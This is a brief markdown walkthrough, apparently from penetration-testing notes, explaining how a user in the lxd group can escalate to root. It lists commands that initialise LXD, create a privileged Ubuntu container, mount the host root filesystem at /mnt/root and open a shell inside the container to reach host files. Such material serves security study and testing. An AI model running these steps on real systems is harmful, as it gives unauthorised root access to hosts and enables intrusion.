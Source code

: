 ### **Introduction**

LXD (Linux Containers Daemon) is a next-generation system container manager, designed to manage Linux containers in a more powerful and flexible way than traditional container technologies like Docker. It provides a user-friendly interface for managing containers and virtual machines, offering capabilities that make it suitable for both development and production environments.

### **Common Scenarios**

1.  Host Path Mounting: Gaining access to the host filesystem from within a container.
2.  Image Import with Elevated Privileges: Using custom container images configured to grant higher privileges.
3.  Misconfigured Container Permissions: Exploiting containers that are started with elevated permissions or insecure settings.

### **Exploiting LXC/LXD Step-by-Step**

1.  Check Group Membership, Ensure you are in the `lxd` group.  
    `id`  

    ![](../../../img/Linux-Environment/102.png)
    
2.  We have to run lxd first and follow the prompts as seen below  
    `lxd init`  

    ![](../../../img/Linux-Environment/103.png)
    
3.  Check for the release version, in this scenario I have 18.04  
    `lsb_release -a`  

    ![](../../../img/Linux-Environment/104.png)
    
4.  Create the instance & mount it  
    `lxc init ubuntu:18.04 test -c security.privileged=true`  
    
    ![](../../../img/Linux-Environment/105.png)

    `lxc config device add test whatever disk source=/ path=/mnt/root recursive=true`  
    
    ![](../../../img/Linux-Environment/106.png)
    
5.  Start the instance, and check its running state  
    `lxc start test`  
    `lxc info test`  
    
    ![](../../../img/Linux-Environment/107.png)
    
6.  Now execute bash within the instance  
    `lxc exec test bash`  
    
    ![](../../../img/Linux-Environment/108.png)
    
7.  Access the mounted partition /mnt/root  
    `cd /mnt/root`  
    
    ![](../../../img/Linux-Environment/109.png)